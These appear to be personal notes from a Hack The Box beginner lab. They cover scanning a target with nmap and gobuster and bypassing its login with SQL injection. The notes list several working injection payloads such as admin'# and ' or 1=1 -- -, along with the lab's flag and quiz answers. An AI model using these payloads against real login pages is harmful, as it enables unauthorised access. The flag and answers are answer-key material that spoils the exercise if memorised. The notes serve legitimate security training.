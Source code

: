 ```
blob:https://app.hackthebox.com/5be081bc-9048-421a-a11f-090c3e6d5944

┌──(kali㉿kali)-[~]
└─$ ping 10.129.221.123
PING 10.129.221.123 (10.129.221.123) 56(84) bytes of data.
64 bytes from 10.129.221.123: icmp_seq=1 ttl=63 time=506 ms
64 bytes from 10.129.221.123: icmp_seq=2 ttl=63 time=500 ms
^C
--- 10.129.221.123 ping statistics ---
3 packets transmitted, 2 received, 33.3333% packet loss, time 2005ms
rtt min/avg/max/mdev = 500.240/503.289/506.338/3.049 ms
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ rustscan -a 10.129.221.123 --ulimit 5500 -b 65535 -- -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5500.
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
Open 10.129.221.123:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-01 12:47 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
Initiating Ping Scan at 12:47
Scanning 10.129.221.123 [2 ports]
Completed Ping Scan at 12:47, 0.45s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:47
Completed Parallel DNS resolution of 1 host. at 12:47, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 12:47
Scanning 10.129.221.123 [1 port]
Discovered open port 80/tcp on 10.129.221.123
Completed Connect Scan at 12:47, 0.29s elapsed (1 total ports)
Initiating Service scan at 12:47
Scanning 1 service on 10.129.221.123
Completed Service scan at 12:47, 6.69s elapsed (1 service on 1 host)
NSE: Script scanning 10.129.221.123.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 6.01s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.77s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
Nmap scan report for 10.129.221.123
Host is up, received syn-ack (0.43s latency).
Scanned at 2022-11-01 12:47:32 EDT for 15s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.16 seconds

┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.129.221.123/ -w /usr/share/wordlists/dirb/common.txt -t 64  
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.221.123/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/11/01 13:28:35 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/css                  (Status: 301) [Size: 314] [--> http://10.129.221.123/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.221.123/fonts/]
/images               (Status: 301) [Size: 317] [--> http://10.129.221.123/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.221.123/js/]
/server-status        (Status: 403) [Size: 279]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.221.123/vendor/]
Progress: 4614 / 4615 (99.98%)===============================================================
2022/11/01 13:28:57 Finished
===============================================================


the script will now
only search if any entry exists with the username admin . In this case, we got lucky. There is indeed an
account called admin , which will validate our SQL Injection and return the 1 value for the $count variable,
which will be put through the if statement , allowing us to log-in without knowing the password. If there
was no admin account, we could try any other accounts until we found one that existed. ( administrator ,
root , john_doe , etc.) Any valid, existing username would make our SQL Injection work.

username: admin'#   password: a

# comment

SELECT * FROM users WHERE username='admin'#' AND password='a'

admin'-- -
a

' or 1=1 -- -
a

' or 1=1#
a

' or "1"="1"-- -
a

' or "x"="x"#
a


Congratulations!

Your flag is: e3d0796d002a446c0e622226f42e9672
```

What does the acronym SQL stand for? 
*Structured Query Language*

What is one of the most common type of SQL vulnerabilities? 
*SQL injection*

What does PII stand for? 
It's a common term found in user data protection. Use camel case.
*Personally Identifiable Information*

What does the OWASP Top 10 list name the classification for this vulnerability? 
It holds the third place (first place in the previous one) in the OWASP Top 10 list of most commonly met web vulnerabilities. Use the complete classification name.
*A03:2021-Injection* https://owasp.org/www-project-top-ten/

What service and version are running on port 80 of the target? 
*Apache httpd 2.4.38 ((Debian))*

What is the standard port used for the HTTPS protocol? 
*443*

What is one luck-based method of exploiting login pages? 
Remember to add a dash of wordlists!
*brute-forcing*

 What is a folder called in web-application terminology? 
 Whenever I'm a bad employee, I get called to the director's office.
 *directory*

What response code is given for "Not Found" errors? 
*404*

What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains? 
*dir*

 What symbol do we use to comment out parts of the code? 
 *#*

![[Pasted image 20221101123641.png]]

Submit root flag 
*e3d0796d002a446c0e622226f42e9672*


[[Redeemer]]